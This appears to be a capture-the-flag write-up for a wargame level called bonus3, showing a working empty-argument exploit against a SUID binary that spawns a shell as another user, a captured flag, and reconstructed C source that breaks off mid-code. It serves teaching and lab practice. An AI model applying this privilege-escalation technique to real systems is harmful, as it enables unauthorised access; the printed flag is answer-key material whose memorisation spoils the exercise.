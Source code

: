 # Bonus3 Analysis - Empty String Bypass Exploitation (VERIFIED WORKING)

## Overview
Bonus3 demonstrates a **string comparison bypass vulnerability** through **empty string manipulation**. Successfully exploited using the empty string method to achieve privilege escalation from 'bonus3' to 'end' user.

**CONFIRMED WORKING SOLUTION:**
```bash
echo "test" > /tmp/bonus3
./bonus3 ""
# Result: Shell with end user privileges + flag extracted
```

**Flag Retrieved**: `3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c`

## Binary Information
- **File**: ELF 32-bit LSB executable, Intel 80386, dynamically linked
- **Permissions**: -rwsr-s---+ 1 end users (SUID bit set for 'end' user)
- **Size**: 5595 bytes
- **Functions**: main(), fopen(), fread(), atoi(), strcmp(), execl(), puts(), fclose()
- **BuildID**: 530d693450de037e44d1186904401c8f8064874b

## Source Code Analysis

### Program Structure
```c
int main(int argc, char **argv) {
    FILE *file;
    char buffer1[66];    // esp+0x18: First buffer (66 bytes)
    char buffer2[65];    // esp+0x5A: Second buffer (65 bytes) 
    int index;

    // Argument validation
    if (argc != 2) return -1;
    
    // File operations
    file = fopen("/tmp/bonus3", "r");  // Opens specific file
    if (file == NULL) return -1;
    
    // Initialize buffers
    memset(buffer1, 0, 66);
    memset(buffer2, 0, 65);
    
    // First read: 66 bytes into buffer1
    fread(buffer1, 1, 66, file);
    
    // String manipulation: use argv[1] as index
    index = atoi(argv[1]);
    buffer1[index] = '\0';  // VULNERABILITY: Null-terminate at index
    
    // Second read: 65 bytes into buffer2  
    fread(buffer2, 1, 65, file);
    
    fclose(file);
    
    // Critical comparison and execution
    if (strcmp(buffer1, argv[1]) == 0) {
        execl("/bin/sh", "sh", "-c", argv[1], NULL);  // PRIVILEGE ESCALATION
    } else {
```